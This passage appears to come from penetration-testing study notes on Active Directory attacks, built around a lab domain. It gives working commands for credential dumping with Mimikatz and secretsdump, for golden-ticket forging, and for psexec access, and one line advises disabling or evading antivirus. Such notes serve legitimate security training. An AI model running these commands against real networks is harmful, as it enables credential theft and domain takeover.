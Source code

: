 ```shell

psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

- Or if we have credentials: use metasploit smb_enum_gpp module

* Mimikatz:

- If there is a share connected to a machine, might be possible to view the password in clear text using this tool
- Can be easily picked up by antivirus, thus obfuscation is necessary or disable antivirus

```shell
#in victim machine, open it with admin privileges from cmd
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords
#dump passwords
```

## Additional Active Directory Attacks

- ZeroLogon
- PrintNightmare

## Post-Domain Compromise Attack Strategy

* Dumping the NTDS.dit:

```shell
#with a known domain admin
secretsdump.py MARVEL.local/hawkeye:'Password1@'@dc.ip -just-dc-ntlm

#we can use Excel's Text-to-Columns feature to split data
#machines are not really high-value targets
```

- Golden Ticket Attacks:

```shell
#on the domain controller with admin cmd
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt
#we need the User's SID and NTLM hash

#User doesnt really matter
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21... /krbtgt:NTML_hash /id:500 /ptt

misc::cmd
```

- Silver Ticket Attacks:

## AD Case Studies:

- https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
- https://tcm-sec.com/pentest-tales-002-digging-deep
- Enumerate, look through all the shares, sometimes all it takes is a too permissive account or a document with a password in it